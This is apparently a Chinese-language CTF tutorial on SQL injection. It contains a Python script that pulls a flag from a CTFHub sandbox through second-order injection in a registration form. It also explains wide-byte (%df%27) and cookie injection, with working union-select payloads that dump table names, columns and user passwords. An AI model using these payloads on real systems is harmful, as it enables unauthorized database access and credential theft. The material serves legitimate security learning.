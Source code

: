 贴个脚本自行领会

```python
import requests
import re
register_url = 'http://challenge-ea58755c8ac8a874.sandbox.ctfhub.com:10800/register.php'
login_url = 'http://challenge-ea58755c8ac8a874.sandbox.ctfhub.com:10800/login.php'


for i in range(1, 100):
    register_data = {
        'email': '111@1234.com%d' % i,
        'username': "0' + ascii(substr((select * from flag) from %d for 1)) + '0" % i,
        'password': 'admin'
    }
    res = requests.post(url=register_url, data=register_data)

    login_data = {
        'email': '111@1234.com%d' % i,
        'password': 'admin'
    }
    res_ = requests.post(url=login_url, data=login_data)
    code = re.search(r'<span class="user-name">\s*(\d*)\s*</span>', res_.text)
    print(chr(int(code.group(1))), end='')
123456789101112131415161718192021
```

##### 宽字节注入

宽字节注入是通过编码绕过后端代码的防御措施，列如正则过滤和转义函数转义。

客户端采用GBK编码格式，数据库对用户输入进行转义`\`,转义符`\`的编码为`%5c`，添加编码`%df`,组成`%df%5c`，此时编码表达为繁体字`連`，从而绕过转义符让`'`逃逸。

```sql
?id=1%df%27 and 1=1 --+?id=1%df%27 and 1=2 --+
?id=1%df%27 order by 4--+
?id=-1%df%27 union select 1,database(),user() --+  #注出数据库名和用户
?id=-1%df%27 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),database() --+ #查询表名
?id=-1%df%27 union select 1,(select group_concat(column_name) from information_schema.columns where table_name=(select table_name from information_schema.tables where table_schema=database() limit 3,3)),database() --+ #查询users中的字段名
?id=-1%df%27 union select 1,(select username from users limit 7,1),(select password from users limit 7,1) --+ #取出一组数据,取出全部用group_concat(username,password)
```

##### Cookie注入

Cookie注入就是Cookie处存在注入点，后端对Cookie没有过滤

```sql
admin' and 1=1 --+  #显示数据admin' and 1=2 --+  #不显示数据
admin' order by 3 --+
ad' union select 1,database(),3  --+
ad' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),3  --+
ad' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='emails'),3  --+
ad' union select 1,(select group_concat(id,email_id) from emails),3  --+
123456
```
